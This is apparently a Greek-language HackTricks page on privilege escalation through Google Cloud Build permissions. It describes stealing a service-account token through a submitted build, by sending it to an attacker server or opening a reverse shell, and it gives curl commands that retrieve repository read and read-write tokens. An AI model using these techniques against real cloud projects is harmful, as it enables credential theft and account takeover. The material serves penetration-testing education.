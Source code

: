 # GCP - Cloudbuild Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudbuild

Για περισσότερες πληροφορίες σχετικά με το Cloud Build, ελέγξτε:

{% content-ref url="../gcp-services/gcp-cloud-build-enum.md" %}
[gcp-cloud-build-enum.md](../gcp-services/gcp-cloud-build-enum.md)
{% endcontent-ref %}

### `cloudbuild.builds.create`

Με αυτή την άδεια μπορείτε να **υποβάλετε μια κατασκευή cloud**. Η μηχανή cloudbuild θα έχει στο σύστημα αρχείων της **κατά προεπιλογή ένα διακριτικό του λογαριασμού υπηρεσίας cloudbuild**: `<PROJECT_NUMBER>@cloudbuild.gserviceaccount.com`. Ωστόσο, μπορείτε να **υποδείξετε οποιονδήποτε λογαριασμό υπηρεσίας μέσα στο έργο** στη διαμόρφωση cloudbuild.\
Επομένως, μπορείτε απλά να κάνετε τη μηχανή να εξάγει το διακριτικό στον διακομιστή σας ή **να αποκτήσετε μια αντίστροφη σύνδεση μέσα σε αυτήν και να αποκτήσετε το διακριτικό** (το αρχείο που περιέχει το διακριτικό μπορεί να αλλάξει).

Μπορείτε να βρείτε το αρχικό σενάριο εκμετάλλευσης [**εδώ στο GitHub**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudbuild.builds.create.py) (αλλά η τοποθεσία από την οποία παίρνει το διακριτικό δεν λειτούργησε για μένα). Επομένως, ελέγξτε ένα σενάριο για να αυτοματοποιήσετε τη [**δημιουργία, εκμετάλλευση και καθαρισμό ενός ευάλωτου περιβάλλοντος εδώ**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/f-cloudbuild.builds.create.sh) και ένα σενάριο python για να αποκτήσετε μια αντίστροφη σύνδεση μέσα στη μηχανή cloudbuild και [**να το κλέψετε εδώ**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/f-cloudbuild.builds.create.py) (στον κώδικα μπορείτε να βρείτε πώς να υποδείξετε άλλους λογαριασμούς υπηρεσίας)**.**

Για μια πιο λεπτομερή εξήγηση, επισκεφθείτε [https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/](https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/)

### `cloudbuild.builds.update`

**Πιθανώς** με αυτή την άδεια θα μπορείτε να **ενημερώσετε μια κατασκευή cloud και απλά να κλέψετε το διακριτικό του λογαριασμού υπηρεσίας** όπως έγινε με την προηγούμενη άδεια (αλλά δυστυχώς κατά τη στιγμή της συγγραφής αυτού του κειμένου δεν μπόρεσα να βρω κανέναν τρόπο να καλέσω αυτή την API).

TODO

### `cloudbuild.repositories.accessReadToken`

Με αυτή την άδεια, ο χρήστης μπορεί να αποκτήσει το **διακριτικό πρόσβασης ανάγνωσης** που χρησιμοποιείται για την πρόσβαση στο αποθετήριο:

{% code overflow="wrap" %}
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadToken"
```
{% endcode %}

### `cloudbuild.repositories.accessReadWriteToken`

Με αυτή την άδεια, ο χρήστης μπορεί να αποκτήσει το **token πρόσβασης για ανάγνωση και εγγραφή** που χρησιμοποιείται για την πρόσβαση στο αποθετήριο:

{% code overflow="wrap" %}
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadWriteToken"
```
{% endcode %}

### `cloudbuild.connections.fetchLinkableRepositories`

Με αυτή την άδεια μπορείτε να **πάρετε τα αποθετήρια στα οποία έχει πρόσβαση η σύνδεση:**

{% code overflow="wrap" %}
```bash
curl -X GET \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>:fetchLinkableRepositories"
```
{% endcode %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
